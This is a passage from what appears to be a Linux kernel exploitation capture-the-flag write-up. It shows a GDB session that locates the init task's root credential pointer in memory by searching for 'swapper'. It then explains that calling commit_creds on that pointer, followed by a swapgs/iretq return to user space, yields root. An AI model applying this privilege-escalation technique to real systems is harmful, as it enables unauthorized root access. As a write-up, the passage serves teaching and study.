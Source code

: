 ```c
     *     fully updated.
     */
    char				comm[TASK_COMM_LEN];
```

Now, for the `init_task`, the comm is `swapper`.
So if we search the memory in GDB for `swapper`, we can find the `real_cred` and `cred` pointers just before this string which give us the pointer to a `struct creds` for the `init` process which is running as root.

<pre>
<span style="color:cyan">(remote) gef➤</span> <span style="color:lightgreen">search-pattern swapper</span>
<span style="color:gray">[+] Searching 'swapper' in memory</span>
<span style="color:gray">[+] In (</span><span style="color:yellow">0xffff888001a00000</span>-<span style="color:yellow">0xffff888001caf000</span><span style="color:gray">), permission=r--</span>
  <span style="color:yellow">0xffff888001c2533e</span> - <span style="color:yellow">0xffff888001c25345</span>  →   <span style="color:lightblue">"swapper"</span>
<span style="color:gray">[+] In (</span><span style="color:yellow">0xffff888001caf000</span>-<span style="color:yellow">0xffff8880020dc000</span><span style="color:gray">), permission=rw-</span>
  <span style="color:yellow">0xffff888001e0ca50</span> - <span style="color:yellow">0xffff888001e0ca59</span>  →   <span style="color:lightblue">"swapper/0"</span>
<span style="color:gray">[+] In (</span><span style="color:yellow">0xffffffff81a00000</span>-<span style="color:yellow">0xffffffff81caf000</span><span style="color:gray">), permission=r--</span>
  <span style="color:yellow">0xffffffff81c2533e</span> - <span style="color:yellow">0xffffffff81c25345</span>  →   <span style="color:lightblue">"swapper"</span>
<span style="color:gray">[+] In (</span><span style="color:yellow">0xffffffff81caf000</span>-<span style="color:yellow">0xffffffff820dc000</span><span style="color:gray">), permission=rw-</span>
  <span style="color:yellow">0xffffffff81e0ca50</span> - <span style="color:yellow">0xffffffff81e0ca59</span>  →   <span style="color:lightblue">"swapper/0"</span>
<span style="color:cyan">(remote) gef➤</span> <span style="color:lightgreen">tele 0xffffffff81e0ca50-0x10</span>
<span style="color:yellow">0xffffffff81e0ca40</span>│+0x0000: <span style="color:green">0xffffffff81e3bf60</span>  →  <span style="color:orange">0x0000000000000004</span>    <span style="color:gray">&lt;------ real_cred</span>
<span style="color:yellow">0xffffffff81e0ca48</span>│+0x0008: <span style="color:green">0xffffffff81e3bf60</span>  →  <span style="color:orange">0x0000000000000004</span>    <span style="color:gray">&lt;------ cred</span>
<span style="color:yellow">0xffffffff81e0ca50</span>│+0x0010: <span style="color:lightblue">"swapper/0"</span>                                  <span style="color:gray">&lt;------ comm</span>
<span style="color:yellow">0xffffffff81e0ca58</span>│+0x0018: <span style="color:orange">0x0000000000000030</span> (<span style="color:lightblue">"0"?</span>)
<span style="color:yellow">0xffffffff81e0ca60</span>│+0x0020: <span style="color:orange">0x0000000000000000</span>
</pre>


So, all we need to do is just call `commit_creds(0xffffffff81e3bf60)` to become root.

### The final touches
With some magic about `swapgs` and `iretq` as perfectly explained by lkmidas [here](https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/), all we had to do was to return to user space properly and run `cat /dev/sdb`.
